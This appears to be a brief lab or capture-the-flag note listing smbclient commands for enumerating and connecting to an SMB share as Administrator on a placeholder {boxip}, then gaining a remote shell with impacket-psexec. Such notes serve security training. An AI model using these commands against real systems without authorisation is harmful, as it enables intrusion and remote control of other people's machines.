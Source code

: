 this box showed an smb share

trying to list the shares:
smbclient -L={boxip}
smbclient -L={boxip} -U Administrator

trying to connect to the share:
smbclient {boxip}/{share} -U Administrator
smbclient -U Administrator {boxip}/{share}
smbclient //{boxip}/{share} -U Administrator

getting a shell with:
impacket-psexec Administrator@{boxip}